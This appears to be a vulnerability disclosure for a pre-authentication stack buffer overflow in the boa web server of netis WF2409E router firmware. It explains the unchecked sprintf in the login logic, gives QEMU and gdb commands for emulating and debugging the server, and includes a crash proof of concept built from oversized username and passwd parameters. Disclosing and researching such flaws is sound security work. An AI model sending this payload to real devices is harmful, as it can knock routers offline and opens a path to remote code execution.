




**Affected Product**: netis_WF2409E

**Affected Firmware Versions**:  v2.3.40982

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 


# Buffer Overflow in boa of netis_WF2409E


## Principle of Vulnerability

 I discovered a  stack overflow vulnerability in the netis_WF2409E router.

sub_4110d4 is the authentication logic. It concatenates the username and passwd to v5 and then compares it with sys_passwd. However, since sprintf does not perform length checking, an overflow occurs. Therefore, this is **a vulnerability before authentication.**




## Simulate using QEMU.

Start a web service by simulating BOA with QEMU.


```
sudo chroot ./ ./qemu-mips-static  -L ./lib  ./bin/boa -p /web -f /etc/boa.conf
```




## poc

Pass parameters

```
username=1111111111111111111111111111111111111111111111111111111&passwd=11111111111111111111111111111111111111111
```


It can be observed that the web service has crashed completely.




## Debug using gdb.

```
sudo chroot ./ ./qemu-mips-static  -L ./lib   -g 1234 ./bin/boa -p /web -f /etc/boa.conf
```




It can be seen that the program has overflowed and controlled the program execution flow. If necessary, more overflow can be performed to construct a ROP chain.
